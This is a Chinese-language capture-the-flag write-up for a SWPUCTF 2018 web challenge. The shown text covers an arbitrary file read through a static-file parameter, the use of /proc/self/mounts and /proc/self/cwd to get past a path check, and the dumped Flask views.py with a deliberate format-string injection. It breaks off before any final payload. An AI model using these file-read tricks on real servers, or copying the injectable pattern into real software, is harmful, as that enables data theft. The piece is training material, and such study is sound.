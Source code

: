 

# 皇家线上赌场

访问主页发现弹了个窗，然后看了下页面源码，发现这么个连接

`http://107.167.188.241/static?file=test.js`

然后发现这是个任意文件读取，读 `/proc/self/mounts` 可以得到web目录

`/dev/sda1 /home/ctf/web_assli3fasdf ext4 rw,relatime,data=ordered 0 0`

但是读不到其它文件，然后这题给了个hint

```python
if filename != '/home/ctf/web/app/static/test.js' and filename.find('/home/ctf/web/app') != -1:
            return abort(404)
```

那么这里就可以用到 `/proc/self/cwd` 这个指向工作目录的链接文件

![](/img/swpuctf-2018-web-writeup/20181220091218.png)

读一下views.py

```python
def register_views(app):
    @app.before_request
    def reset_account():
        if request.path == '/signup' or request.path == '/login':
            return
        uname = username=session.get('username')
        u = User.query.filter_by(username=uname).first()
        if u:
            g.u = u
            g.flag = 'swpuctf{xxxxxxxxxxxxxx}'
            if uname == 'admin':
                return
            now = int(time())
            if (now - u.ts >= 600):
                u.balance = 10000
                u.count = 0
                u.ts = now
                u.save()
                session['balance'] = 10000
                session['count'] = 0

    @app.route('/getflag', methods=('POST',))
    @login_required
    def getflag():
        u = getattr(g, 'u')
        if not u or u.balance < 1000000:
            return '{"s": -1, "msg": "error"}'
        field = request.form.get('field', 'username')
        mhash = hashlib.sha256(('swpu++{0.' + field + '}').encode('utf-8')).hexdigest()
        jdata = '{{"{0}":' + '"{1.' + field + '}", "hash": "{2}"}}'
        return jdata.format(field, g.u, mhash)

```
